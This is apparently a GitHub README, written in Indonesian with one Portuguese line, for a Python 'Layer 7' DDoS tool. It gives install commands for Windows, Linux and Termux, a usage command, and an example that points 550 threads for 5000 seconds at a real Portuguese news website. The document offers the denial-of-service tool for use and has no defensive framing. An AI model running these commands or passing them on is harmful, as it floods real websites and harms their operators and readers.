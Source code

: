 <h1 align="center">DDOS Tool (Layer 7) </h1> 
<div align="center">
<img src="https://img.shields.io/badge/Made%20with-Python-1f425f.svg"> <img src="https://svgshare.com/i/ZhY.svg"> <img src="https://img.shields.io/github/forks/7zx/overload?style=social&label=Fork&maxAge=2592000"> <img src="https://img.shields.io/github/stars/7zx/overload?style=social&label=Star&maxAge=2592000"> <img src="https://img.shields.io/badge/PRs-welcome-brightgreen.svg?style=flat-square"> 
</div>

# :computer: Tampilan
<p align="center">
  <img src="https://i.postimg.cc/hPsxVVW9/images-tampilan.jpg">
</p>

# ⛔ INSTALL


<h2>Windows</h2> <img src="https://cdn.iconscout.com/icon/free/png-256/windows-221-1175066.png" width="50" height="50">  

  - Install Python 3.8 [Link](https://www.python.org/downloads/release/python-38)
  - Buka dan klik: `add python to PATH`
  - Download script <a href="https://github.com/7zx/overload/archive/refs/heads/main.zip" target="blank">Link</a>
  - Install Package: `pip install -r requirements.txt`  


 

 <h2>Linux</h2><img src="https://raw.githubusercontent.com/8fn/overload/main/img/linux-icon-28166.png" width="50" height="50">

```
sudo apt update
sudo apt install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt or python -m pip install -r requirements.txt
```

<h2>Termux</h2><img src="https://brandslogos.com/wp-content/uploads/images/large/terminal-logo.png" width="50" height="50">  

```
pkg update
pkg install python3 python3-pip git -y
git clone https://github.com/vynZGaming/LAYER7
cd LAYER7/
pip3 install -r requirements.txt
```

## ❓ Cara Penggunaan
O comando básico para poder executar o overload é o seguinte.  

```
python3 sneazy.py --time XXX --threads XXX --target [URL] --method HTTP
```

Example:  

```
python3 sneazy.py --time 5000 --threads 550 --target https://www.publico.pt/ --method HTTP
```
